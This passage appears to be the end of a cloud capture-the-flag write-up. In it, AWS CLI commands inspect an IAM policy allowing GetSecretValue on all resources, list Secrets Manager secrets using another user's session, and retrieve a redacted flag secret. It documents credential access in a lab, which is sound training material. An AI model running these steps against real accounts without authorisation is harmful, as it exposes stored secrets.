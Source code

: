 Let's examine customer managed policy `ReadSecretsManager`
```
└─$ aws --profile louise-eng iam get-policy-version --policy-arn arn:aws:iam::583554811645:policy/ReadSecretsManager --version-id v1
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "secretsmanager:ListSecrets",
                        "secretsmanager:GetSecretValue"
                    ],
                    "Effect": "Allow",
                    "Resource": "*",
                    "Sid": "AllowReadSecretsManager"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2025-08-30T14:07:56Z"
    }
}

```

Now list the secrets using `bob`'s session
```
└─$ aws secretsmanager list-secrets                    
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-west-2:583554811645:secret:flag_5cc9eb3e3e32-YnmbBU",
            "Name": "flag_5cc9eb3e3e32",
            "Description": "Congratulations! You found the flag!",
            "LastChangedDate": 1756562877.144,
            "LastAccessedDate": 1756512000.0,
            "SecretVersionsToStages": {
                "terraform-20250830140757071800000005": [
                    "AWSCURRENT"
                ]
            },
            "CreatedDate": 1756562876.754
        }
    ]
}

```

Get the flag
```
└─$ aws secretsmanager get-secret-value --secret-id flag_5cc9eb3e3e32            
{
    "ARN": "arn:aws:secretsmanager:us-west-2:583554811645:secret:flag_5cc9eb3e3e32-YnmbBU",
    "Name": "flag_5cc9eb3e3e32",
    "VersionId": "terraform-20250830140757071800000005",
    "SecretString": "<REDACTED>",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1756562877.139
}

```